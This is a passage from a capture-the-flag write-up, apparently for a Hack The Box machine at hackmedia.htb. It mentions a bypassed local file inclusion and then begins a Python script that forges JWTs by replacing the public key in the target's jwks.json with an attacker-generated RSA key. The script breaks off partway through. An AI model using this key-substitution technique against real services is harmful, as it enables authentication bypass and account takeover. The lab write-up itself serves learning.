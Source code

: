 ![](screenshots/lfi-bypassed.png)

sake of the learning purpose, i tried to create a python script to automate all of this.
```py
import jwt
import json
from Crypto.PublicKey import RSA
import requests as r
from jwcrypto import jwk
import argparse
import re
import netifaces as ni
# from os import getcwd

host = 'http://hackmedia.htb'  # **IMPORTANT** add "10.10.11.126 hackmedia.htb" in python "/etc/hosts" file.
files_path = '.'  # getcwd()
ip = ni.ifaddresses('tun0')[ni.AF_INET][0]['addr']
jwks_serv_ip = ip


class GenTokenAndJWKS:
    def __init__(self):
        # Generate RSA key
        key = RSA.generate(2048)
        private_key = key.exportKey('PEM')
        public_key = key.publickey().exportKey('PEM')
        # Extract "n" and "e" value
        key = jwk.JWK.from_pem(public_key)
        jwks = key.export_public()
        # print(json.loads(jwks))

        # Generate modified "jwks.json" file
        org_jwks = r.get(f'{host}/static/jwks.json').text
        # print(org_jwks)
        json_object = json.loads(org_jwks)
        json_object['keys'][0]['n'] = json.loads(jwks)['n']
        json_object['keys'][0]['e'] = json.loads(jwks)['e']
        # print(json.dumps(json_object, indent=4))
        self.modified_jwks = json_object

```